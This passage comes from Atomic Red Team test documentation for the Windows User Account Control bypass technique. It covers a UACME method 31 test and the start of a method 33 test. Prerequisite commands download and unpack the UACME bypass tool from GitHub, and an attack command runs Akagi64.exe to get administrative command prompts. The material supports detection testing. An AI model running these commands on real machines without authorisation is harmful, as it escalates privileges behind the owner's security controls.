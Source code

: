 | Name      | Description              | Type | Default Value                                                                |
| --------- | ------------------------ | ---- | ---------------------------------------------------------------------------- |
| uacme_exe | Path to uacme executable | path | PathToAtomicsFolder&#92;..&#92;ExternalPayloads&#92;uacme&#92;31 Akagi64.exe |

#### Attack Commands: Run with `command_prompt`!

```cmd
"#{uacme_exe}"
```

#### Cleanup Commands:

```cmd
powershell Stop-Process -Name cmd -Force -ErrorAction Ignore
powershell Stop-Process -Name mmc -Force -ErrorAction Ignore
```

#### Dependencies: Run with `powershell`!

##### Description: UACME executable must exist on disk at specified location ("#{uacme_exe}")

##### Check Prereq Commands:

```powershell
$tempPath = cmd /c echo #{uacme_exe}
if (Test-Path "$tempPath") {exit 0} else {exit 1}
```

##### Get Prereq Commands:

```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1548.002/bin/uacme.zip" -OutFile "PathToAtomicsFolder\..\ExternalPayloads\uacme.zip"
Expand-Archive "PathToAtomicsFolder\..\ExternalPayloads\uacme.zip" "PathToAtomicsFolder\..\ExternalPayloads\uacme" -Force
Remove-Item "PathToAtomicsFolder\..\ExternalPayloads\uacme.zip" -Force
```

<br/>
<br/>

## Atomic Test #12 - UACME Bypass Method 33

Executes User Account Control Bypass according to the methods listed below. Upon successful execution you should see event viewer load and two administrative command prompts.
Note: The cleanup_command's which kill the spawned cmd and event viewer processes only work if run as admin.

Author: winscripting.blog

Type: Shell API

Method: Registry key manipulation
